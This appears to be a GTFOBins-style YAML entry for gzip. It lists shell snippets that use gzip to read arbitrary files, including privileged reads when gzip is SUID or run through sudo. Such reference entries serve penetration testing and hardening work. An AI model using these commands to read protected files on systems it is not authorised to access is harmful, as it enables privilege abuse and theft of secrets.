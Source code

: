 ```yaml
---
description: There are also a number of other utilities that rely on `gzip` under the hood, e.g., `zless`, `zcat`, `gunzip`, etc. Besides having similar features, they also allow privileged reads if `gzip` itself is SUID.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gzip -f $LFILE -t
    - code: |
        LFILE=file_to_read
        gzip -c $LFILE | gzip -d
  suid:
    - code: |
        LFILE=file_to_read
        ./gzip -f $LFILE -t
  sudo:
    - code: |
        LFILE=file_to_read
        sudo gzip -f $LFILE -t
---
```

